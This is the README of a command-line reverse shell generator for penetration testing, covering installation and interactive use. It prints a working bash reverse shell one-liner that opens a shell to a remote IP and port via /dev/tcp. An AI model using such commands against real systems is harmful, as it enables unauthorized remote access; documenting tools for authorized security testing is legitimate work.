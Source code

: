 # General Information

https://pypi.org/project/revshell-generator/

The Reverse Shell Generator is a CLI tool that assists in quickly generating reverse shell commands and their corresponding listener commands.

# Installation

You can either clone the repository or install the package from PyPI.

Clone the repository:

```bash
apt install python3 python3-pip
git clone https://github.com/totekuh/reverse-shell-generator
cd reverse-shell-generator
pip3 install .
python3 revshellgenerator.py -h
```

PyPI:
```bash
sudo apt install python3 python3-pip
sudo pip3 install revshell-generator
revshell-generator -h
```

# Usage

You can use the Reverse Shell Generator either interactively or by passing parameters directly on the command line.



### Running the Reverse Shell Generator

```bash
$ revshell-generator
Welcome to the reverse shell generator. Type 'help' or '?' to list available commands.
```

### Setting Reverse IP Address and Port

```bash
revshell-generator --ip 192.168.1.10 --port 8080 --shell /bin/bash
```

You can also specify the IP address by providing a network interface name:

```bash
revshell-generator --ip eth0 --port 8080 --shell /bin/bash
```

In interactive mode, you can set these parameters using the ip, port, and shell commands:

```bash
>> ip 192.168.1.10
>> port 8080
>> shell /bin/bash
```

### Listing Available Reverse Shell Commands

```bash
>> list reverse
```

*Note: the indexes are used while choosing the command template.*

### Listing Available Listener Commands

```bash
>> list listeners
```

### Generating Reverse Shell Commands

```bash
$ python3 revshellgenerator.py
>> get reverse 0
```

The above command will generate the first available reverse shell command, replacing the placeholders with the provided IP, port, and shell. Here's an example of how it might look:

```bash
bash -i >& /dev/tcp/192.168.1.10/8080 0>&1
```

### Generating Listener Commands

```bash
>> get listeners 10
```

For more detailed instructions and specific commands, use the 'help' command followed by the command name, such as `help list` or `help get`.
